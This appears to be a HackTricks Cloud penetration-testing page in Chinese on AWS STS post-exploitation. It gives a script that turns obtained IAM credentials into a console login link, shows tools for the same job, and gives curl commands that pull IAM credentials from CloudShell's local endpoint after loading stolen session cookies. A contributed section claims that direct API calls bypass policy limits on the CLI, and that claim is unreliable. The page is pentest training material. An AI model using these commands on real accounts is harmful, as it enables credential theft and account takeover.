 # AWS - STS 后期利用

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## STS

更多信息：

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### 新方法 2024年12月：绕过 Web 控制台链接的要求，通过 HTTPS POST 请求直接获取 SecretsManager API 的秘密（无需登录链接或 Web 控制台）

昨天提交，作为即将到来的考试 (ARTE: ex16x41) 的 PR，但我看到 PR 没有显示，可能提交错误，让我们再试一次：
使用此方法，您完全绕过了打开任何 URL、格式化任何登录链接或甚至使用 CLI / Web 控制台的要求。
那么我们在这里做了什么？
我编写了这个与 AWS Secrets Manager API 直接交互的脚本，绝对简单明了。
当您运行脚本时，它会向 AWS Secrets Manager 端点发送 HTTPS POST 请求
https://secretsmanager.<region>.amazonaws.com/
GetSecretValue 请求作为 POST 请求的一部分发送，使用 SigV4 签名进行身份验证（由 boto3 管理）。
Secrets Manager 处理请求：
AWS 根据附加到您的用户或角色的 IAM 策略验证请求（正如我们所知，我们只能通过 Web 控制台查看秘密值）
如果允许，Secrets Manager 服务将在响应中返回请求的秘密值。
**POC 演示：**
获取秘密值的 CLI AWS 命令无法工作，因为访问被拒绝 ->
然而，在图像中，您可以看到通过知道秘密 ID 直接提取标志的方法的简单性（这是我们在登录用户配置文件时在早期阶段枚举的）
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
注意：我认为此方法可以根据策略的允许情况普遍使用（但绕过不允许通过 CLI 的策略限制）
因此，只要策略允许（作为替代测试选项），就可以随时使用。
附注：对您可以使用相同的直接与服务 API 交互的方法应用的其他技术感到好奇，现在 AWS CLI，适用于任何特权提升或后期利用的过程，如此处所示。
**代码：**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# 设置自定义 User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# 通过 secretsmanager API 直接检索秘密值
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### 从 IAM 凭证到控制台

如果您成功获取了一些 IAM 凭证，您可能会对 **访问 Web 控制台** 感兴趣，使用以下工具。\
请注意，用户/角色必须具有权限 **`sts:GetFederationToken`**。

#### 自定义脚本

以下脚本将使用默认配置文件和默认 AWS 位置（非政府和非中国）为您提供一个可以用来登录 Web 控制台的签名 URL：

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

您可以使用 [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) **生成一个网络控制台链接**。
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
确保 IAM 用户具有 `sts:GetFederationToken` 权限，或提供一个角色以进行假设。
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) 是一个在开发环境中安全存储和访问 AWS 凭证的工具。
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
您还可以使用 **aws-vault** 来获取 **浏览器控制台会话**
{% endhint %}

#### 从控制台到 IAM 凭证

[**最初在这篇文章中发现**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/)，如果您设法获取了对 web 控制台的某些访问权限（也许您窃取了 cookies 并无法访问 .aws 文件夹），您可以通过 **CloudShell** 获取该用户的一些 IAM 令牌凭证。

CloudShell 通过 **未记录的端点在 1338 端口** 暴露 IAM 凭证。在将受害者的会话 cookies 加载到您的浏览器后，您可以导航到 CloudShell 并发出以下命令以获取 IAM 凭证。
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
